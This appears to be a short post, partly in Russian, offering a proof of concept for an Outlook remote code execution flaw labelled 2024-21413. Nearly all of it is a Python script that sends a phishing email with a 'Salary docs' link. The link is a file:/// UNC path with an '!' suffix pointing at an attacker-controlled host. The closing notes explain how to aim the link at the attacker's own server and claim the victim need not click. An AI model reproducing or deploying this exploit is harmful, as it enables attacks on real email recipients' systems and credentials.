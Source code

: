 # proxy_bar
`2024-07-29`

<blockquote>
2024-21413 /outlook RCE
*
POC

import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

def send_email():
    &#35; Get user input for sender's email address and password
    sender_email &#61; input(&quot;Enter your Outlook email address: &quot;)
    sender_password &#61; input(&quot;Enter your Outlook email password: &quot;)

    &#35; Get user input for receiver's email address
    receiver_email &#61; input(&quot;Enter the recipient's email address: &quot;)

    &#35; Create a new message object
    msg &#61; MIMEMultipart()

    &#35; Add sender, receiver, and subject to the message
    msg['From'] &#61; sender_email
    msg['To'] &#61; receiver_email
    msg['Subject'] &#61; input(&quot;Enter email subject: &quot;)

    &#35; Ask user if they want to add a link attachment
    add_attachment &#61; input(&quot;Do you want to add a link attachment? (yes/no): &quot;).lower()
    if add_attachment &#61;&#61; 'yes':
        html_content &#61; &quot;&quot;&quot;\
        &lt;!DOCTYPE html&gt;
        &lt;html lang&#61;&quot;en&quot;&gt;
            &lt;body&gt;
                &lt;p&gt;&lt;a href&#61;&quot;file:///\\192.168.206.139/test/Doc.txt!xssvideo&quot;&gt;Salary docs&lt;/a&gt;&lt;/p&gt;
            &lt;/body&gt;
        &lt;/html&gt;&quot;&quot;&quot;
        msg.attach(MIMEText(html_content, 'html'))

    &#35; Connect to SMTP server and send email
    with smtplib.SMTP('smtp-mail.outlook.com', 587) as server:
        server.starttls()
        server.login(sender_email, sender_password)
        server.send_message(msg)
        print(&quot;Email sent successfully.&quot;)

if __name__ &#61;&#61; &quot;__main__&quot;:
    send_email()

Но есть пара НО:
1. В строке 27 вам необходимо указать путь к файлу на вашем сервере (линк на rtf например)
2. На линк жертве кликать не нужно, Office Protected View все сам сделает.
3. Было мнение что нужно находиться в LAN жертвы, но как бы есть пара минут пока port established
